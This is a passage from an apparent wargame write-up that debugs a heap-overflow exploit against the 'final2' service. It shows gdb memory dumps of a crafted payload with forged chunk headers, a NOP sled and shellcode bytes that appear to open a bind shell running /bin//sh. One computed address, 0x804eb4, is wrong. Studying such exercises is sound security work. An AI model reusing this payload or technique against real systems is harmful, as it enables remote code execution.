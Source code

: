 This looks ok: 0x804e090 - 0x804e008 = 0x88 = 136 = 128 + 8 (headers)
So now we know that the second chunk will be allocated in 0x804e090 and our shellcode should be 29 bytes ahead. Since we have a nop sled, lets say 36 -> 0x804e090 + 36 = 0x804eb4

When we hit the second breakpoint (just before the first call to free()):

```lang-bash line-numbers 
Breakpoint 2, 0x0804be10 in get_requests (fd=4) at final2/final2.c:55
55	in final2/final2.c
(gdb) i r eax
eax            0x804e008	134537224
```

We can check that we were right and that the chunks being freed were the ones we previouly allocated.

Lets see how does the chunk1 memory looks like before the free():

```lang-bash line-numbers 
(gdb) x/32x 0x804e008
0x804e008:	0x44525346	0x58585858	0x58585858	0x58585858
0x804e018:	0x58585858	0x58585858	0x58585858	0x58585858
0x804e028:	0x58585858	0x58585858	0x58585858	0x58585858
0x804e038:	0x58585858	0x58585858	0x58585858	0x58585858
0x804e048:	0x58585858	0x58585858	0x58585858	0x58585858
0x804e058:	0x58585858	0x58585858	0x58585858	0x58585858
0x804e068:	0x58585858	0x58585858	0x58585858	0x58585858
0x804e078:	0x58585858	0x58585858	0x58585858	0x2f585858
```

This looks pretty sane, our "FSRD" string followed by 123 "X"s and then a "/" (0x2f)

And the chunk2:

```lang-bash line-numbers 
(gdb) x/32x 0x804e008+136
0x804e090:	0x44525346	0x544f4f52	0xfffffc2f	0xffffffff
0x804e0a0:	0x585858ff	0x41414158	0x44444441	0x90909044
0x804e0b0:	0x90909090	0x90909090	0x90909090	0x90909090
0x804e0c0:	0xf7db3190	0x534353e3	0xe189026a	0x80cd66b0
0x804e0d0:	0x68525e5b	0x5c1102ff	0x5051106a	0x666ae189
0x804e0e0:	0x8980cd58	0x04b30441	0x80cd66b0	0xcd66b043
0x804e0f0:	0x6a599380	0x80cd583f	0x68f87949	0x68732f2f
0x804e100:	0x69622f68	0x50e3896e	0xb0e18953	0x0080cd0b
```

Again we have our "FSRD" string followed by the "ROOT" one, the "/", the "-4", "-1", 4*"X", 4"A"s, 4"D"s, the NOP sled and our shellcode

Now lets take a look at the chunk 2 headers:

```lang-bash line-numbers 
(gdb) x/2x 0x804e090-8
0x804e088:	0x00000000	0x00000089
```

Damn it, our memmove call has not worked correctly, since we were expecting our "-4" and "-1" here.

If we start the debugging again and add a breakpoint to analyze "check_path", we find out that its only being called once for chunk1, not for chunk2. There was a error in our payload so that the second chunk was only 127 bytes and so we broke the loop. Once fixed:
